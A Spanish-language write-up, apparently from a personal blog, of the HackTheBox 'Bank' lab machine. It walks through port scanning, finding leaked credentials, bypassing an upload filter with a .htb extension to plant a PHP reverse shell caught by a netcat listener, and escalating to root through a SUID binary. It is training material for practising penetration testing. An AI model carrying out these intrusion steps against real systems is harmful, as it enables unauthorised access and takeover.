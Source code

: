 ```yaml
---
layout      : post
title       : "Bank - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Bank-HackTheBox/Bank.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


💲En esta ocasión explotaremos una máquina Easy de HackTheBox muy pero muy sencilla, tendremos que obtener unas credenciales de acceso al servidor web y después subir una reverse shell para poder conseguir acceso al sistema. La escalada de privilegios es un auténtico regalito🎁💲!!

![](/assets/images/HTB/Bank-HackTheBox/rating-bank.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Explotación](#explotacion).   
    * [Reverse Shell](#rev-shell).     
4. [Escalada de Privilegios](#privesc). 
    * [Emergency](#emergency).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
80/tcp open  http    syn-ack
```

Escaneamos servicios y las versiones de los mismos.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aquí tenemos un servidor web en el puerto 80 (http), el puerto 53 (DNS) y el puerto 22 (ssh).

Añadimos al archivo host la ip y el dominio bank.htb

Procedo a enumerar el servidor web

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Encontramos un login para acceder pero no tenemos credenciales, asique me pongo a enumerar rutas en el servidor para ver que tenemos.

![](/assets/images/HTB/Bank-HackTheBox/web1.png)

Para enumerar las rutas uso gobuster

![](/assets/images/HTB/Bank-HackTheBox/gobuster.png)

Encuentro la ruta balance-transfer y dentro de ella una lista bastante grande con archivos.

![](/assets/images/HTB/Bank-HackTheBox/web2.png)

Abro uno de ellos aleatoriamente

![](/assets/images/HTB/Bank-HackTheBox/data1.png)

Parece que la data está encriptada, pero tras probar y probar y no consigo desencriptarla.

Sigo buscando en la lista de archivos y me fijo en el tamaño de cada uno, suelen rondar entre los 582 y 585 el tamaño de los archivos, asique buscando encuentro uno de ellos que tiene de tamaño 257.

![](/assets/images/HTB/Bank-HackTheBox/web3.png)

Al abrirlo encuentro unas credenciales en texto plano.

![](/assets/images/HTB/Bank-HackTheBox/data2.png)

Usaré las credenciales para iniciar sesión en el panel web.

Una vez dentro encontramos un panel con todas las transacciones y datos bancarios.

![](/assets/images/HTB/Bank-HackTheBox/web4.png)

# Explotación [#](explotacion) {#explotacion}

----

## Reverse Shell [🔥](#rev-shell) {#rev-shell}

Navegando por la web me dirijo a Support y encuentro una formulario donde puedo subir un archivo.

![](/assets/images/HTB/Bank-HackTheBox/web5.png)

Tras ver eso creo un archivo con una reverse shell en php de la siguiente fuente:

[https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Edito la ip y el puerto.

Una vez lista la reverse shell la subo al servidor.

![](/assets/images/HTB/Bank-HackTheBox/errorweb.png)

Pero me arroja ese error, solo se pueden subir imágenes al servidor.

Tras probar a editar el content-type en Burpsuite para bypassear la restricción no tengo éxito asique procedo a analizar el código del support.php donde encuentro el siguiente comentario:

> "[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]" 

Si cambiamos la extensión de .php a .htb podemos ejecutar los archivos php.

Subimos el archivo y listo:

![](/assets/images/HTB/Bank-HackTheBox/web6.png)

Ahora nos abrimos un listener netcat en el puerto configurado en la rev shell

`nc -lnvp 1234`

Ejecutamos el archivo desde el panel web y tenemos la conexión inversa.

```shell
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.29] 48610
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 00:27:22 up  1:08,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

Una vez dentro ya podemos leer el user.txt

Ahora toca escalar privilegios


# Escalada de Privilegios [#](privesc) {#privesc}

----

## Emergency [🚑](emergency) {#emergency}

Busco binarios SUID de propietarios root con el comando find 

```bash
www-data@bank:/home/chris$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
Tenemos el binario emergency

Asique pruebo a ejecutarlo para ver que sucede o que he de hacer...

```bash
www-data@bank:/home/chris$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami 
root
```

Lo ejecuto y para mi sorpresa ya soy root!!!

![](/assets/images/HTB/Bank-HackTheBox/dollar.gif)
